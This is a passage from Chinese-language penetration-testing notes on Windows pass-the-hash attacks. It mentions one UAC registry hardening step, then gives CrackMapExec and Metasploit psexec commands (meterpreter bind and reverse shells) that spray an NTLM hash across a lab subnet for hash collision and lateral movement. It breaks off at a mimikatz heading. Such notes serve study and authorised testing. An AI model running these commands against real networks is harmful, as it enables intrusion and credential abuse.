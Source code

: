 ```
UAC 的这项设置对应注册表的 FilterAdministratorToken ，默认这项设置是禁用的，如果启用那么就连 administrator 的远程访问都会被 UAC 限制，导致工作组环境下所有的用户 PTH 攻击失效。

reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /d 1 /f
```

### PTH攻击：哈希碰撞

##### 攻击原理：

在企业内网环境中，很多计算机在安装的时候使用的是相同的密码。在获取到其中一台机器的 hash 且无法解密为明文，碰撞多台机器。

##### CrackMapExec

```
crackmapexec smb 192.168.72.163/24 -u administrator -H 00000000000000000000000000000000:58ff35b4831f039d108d553e68856650
```

![image-20250119215918321](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250119215918321.png)

##### MSF

```
use exploit /windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set rhosts 192.168.72.163/24
set smbuser administrator
set smbpass 00000000000000000000000000000000:58ff35b4831f039d108d553e68856650
run
```

![image-20250119221114383](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250119221114383.png)

### PTH攻击：横向移动

##### 攻击原理：

当碰撞出目标机器时，我们需要 PTH 攻击访问目标机器。

##### MSF

```
use exploit /windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 192.168.72.163
set smbuser administrator
set smbpass 00000000000000000000000000000000:58ff35b4831f039d108d553e68856650
set smbdomain HACKER
run
```

##### mimikatz
